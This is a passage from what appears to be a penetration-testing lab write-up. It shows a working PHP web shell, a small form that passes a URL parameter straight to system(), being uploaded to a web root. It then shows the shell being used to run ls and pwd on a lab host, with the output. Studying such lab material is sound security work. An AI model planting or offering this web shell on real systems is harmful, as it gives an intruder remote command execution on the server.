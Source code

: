 This allows us to confirm the code execution vulnerability exists here.

Let's focus on improving exist exploit and impact on target system.

We will now use a differnt example for the second visibility and better understanding of the present ideas.

Let's see you are able to upload simple PHP webshell.

```
/var/www/html/server# gedit ../shell.php
```

```php
<?php

echo "<html>";

echo "<form method=GET><input type=text name=c stype='width:400px;'><input type=submit value=Execute style='height:34px;'></form>";

echo "<pre>";
$a = system($_GET["c"]);
echo "</pre></html>";
?>
```

![index-of-upload-vulnerability.png](/img/in-post/ine/index-of-upload-vulnerability.png)

```
192.168.139.130/shell.php

192.168.139.130/shell.php?c=ls
script.php
server
shell.php

192.168.139.130/shell.php?c=pwd
/var/www/html

192.168.139.130/shell.php?c=vi
Vim: Finished.
```
